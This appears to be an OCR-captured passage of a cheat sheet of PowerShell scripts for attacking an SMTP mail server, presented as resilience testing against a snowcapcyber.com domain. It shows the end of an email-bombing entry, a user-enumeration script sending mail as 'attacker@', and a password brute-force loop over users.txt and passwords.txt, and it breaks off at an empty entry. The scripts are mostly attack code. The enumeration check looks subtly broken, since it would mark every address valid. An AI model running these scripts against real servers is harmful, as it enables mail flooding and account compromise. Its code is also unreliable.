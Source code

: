 Sends multiple emails to overwhelm the SMTP server, simulating an email bombing attack.

**Example:**

Test server resilience by sending 100 emails to user@snowcapcyber.com.

---

**Script/Command:**

```powershell
$email_addresses = "user1@snowcapcyber.com", "user2@snowcapcyber.com", "user3@snowcapcyber.com"
$valid_addresses = @()
foreach ($address in $email_addresses) {
    $result = Send-MailMessage -To $address -From "attacker@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com -ErrorAction SilentlyContinue
    if ($result -eq $null) {
        $valid_addresses += $address
    }
}
Write-Host "Valid Email Addresses: $($valid_addresses -join ', ')"
```

**Description:**

Automates user enumeration by sending emails to a list of addresses and identifying valid ones based on server responses.

**Example:**

Check which of user1, user2, or user3@snowcapcyber.com are valid.

---

**Script/Command:**

```powershell
$passwords = Get-Content "passwords.txt"
$users = Get-Content "users.txt"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        Send-MailMessage -To "user@snowcapcyber.com" -From $user -SmtpServer mail.snowcapcyber.com -Credential (New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString -String $password -AsPlainText -Force)))
    }
}
```

**Description:**

Automates brute-force attacks by attempting various username and password combinations via SMTP.

**Example:**

Test login attempts using users and passwords from users.txt and passwords.txt.

---

**Script/Command:**
